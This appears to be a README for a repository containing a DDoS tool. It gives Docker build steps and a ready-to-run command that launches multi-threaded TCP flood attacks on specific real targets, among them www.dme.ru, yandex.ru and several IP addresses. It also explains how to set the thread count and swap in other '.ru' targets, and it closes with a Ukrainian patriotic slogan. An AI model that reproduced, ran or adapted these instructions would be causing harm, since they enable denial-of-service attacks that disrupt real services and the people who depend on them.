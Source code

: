 # DDOS
After successful downloading you need to install docker desktop.
https://www.docker.com/products/docker-desktop
Open MainApp folder in terminal and run three commands:
" dotnet publish -c Release",
"docker build -t ddosimage . " and
"docker run -it --rm  ddosimage  3 80.68.247.26 www.dme.ru yandex.ru 195.218.193.151 77.51.53.74"

Last row after "ddosimage"  you can put quantity of threads for each ip and all ip address on which you want to make TCP ddos attack or url
PS: url pust be with domain ".ru" becouse program can filter only url with ".ru" otherwise in will make an excaption.


Слава Україні!!!!
